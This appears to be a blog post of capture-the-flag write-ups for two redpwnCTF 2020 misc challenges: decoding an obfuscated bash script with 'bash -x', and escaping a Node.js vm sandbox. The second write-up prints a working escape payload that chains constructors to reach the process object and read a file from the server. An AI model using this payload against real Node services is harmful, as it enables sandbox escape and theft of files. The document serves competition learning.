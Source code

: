 ```yaml
---
title: "redpwnCTF 2020 Misc"
date: 2020-06-29T14:16:00+00:00
weight: 9997
# aliases: ["/first"]
tags: ["writeup", "misc", "redpwnctf"]
author: "Me"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: true
draft: false
hidemeta: false
comments: false
description: "Writeups on misc challenges for redpwnCTF 2020"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
---
```


<img src="/img/misc.png">

---

## uglybash
**Category:** Misc

**Points:** 359

**Description:**
> This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.
>
> The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?
>
> Enjoy the intro misc chal.
>
> **Author:** arinerron
>
> **Given:** cmd.sh

### Writeup
When looking at the file, we see a bunch of gibberish bash. I did some research
and found a way to "debug" a script in bash.

The command is simple:
```
bash -x <program>
```

After running this, we see all commands ran in bash. We can do some parsing
through this debug output and retrieve:
```
+++ printf %s e
+++ printf %s c
+++ printf %s h
+++ printf %s o
+++ printf %s ' '
+++ printf %s d
+++ printf %s o
+++ printf %s n
+++ printf %s t
+++ printf %s ' '
+++ printf %s j
+++ printf %s u
+++ printf %s s
+++ printf %s t
+++ printf %s ' '
+++ printf %s r
+++ printf %s u
+++ printf %s n
+++ printf %s ' '
+++ printf %s i
+++ printf %s t
+++ printf %s ,
+++ printf %s ' '
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s ' '
+++ printf %s #
+++ printf %s ' '
+++ printf %s f
+++ printf %s l
+++ printf %s a
+++ printf %s g
+++ printf %s {
+++ printf %s u
+++ printf %s s
+++ printf %s 3
+++ printf %s _
+++ printf %s z
+++ printf %s s
+++ printf %s h
+++ printf %s ,
+++ printf %s _
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s }
```

Evaluating to:
```
dont just run it, dummy # flag{us3_zsh,_dummy}
```

### Flag
`flag{us3_zsh,_dummy}`

---

## CaasiNO
**Category:** Misc

**Points:** 402

**Description:**
> Who needs regex for sanitization when we have VMs?!?!
>
> The flag is at /ctf/flag.txt0
>
> `nc 2020.redpwnc.tf 31273`
>
> **Author:** asphyxia
>
> **Given:** calculator.js

### Writeup
This one isn't as easy for me to explain because I don't understand FULLY how
I am able to get this flag. From my understanding, we are in a JavaScript VM,
which allows us to run some simple JavaScript. I don't know all that much JavaScript,
but I was able to do some research to find out that this vm is escapable.

I started out by seeing:
```
> this.constructor.constructor()
function anonymous(
) {

}
```

This gave me a little inspiration to try to find the flag. I messed around with
this for a while to try to get further and further. I then was able to return this
"process" object, which I was sure had many resources. I was right.
```
> this.constructor.constructor("return this")().process
[object process]
```

I fumbled around with more code and functions until I came across this beauty:
```
> new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("fs").readFileSync("ctf/flag.txt")
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```

### Flag
`flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}`

### Resources
[readFileSync](https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/?ref=leftbar-rightbar)

[Main idea](https://github.com/gf3/sandbox/issues/50)

---



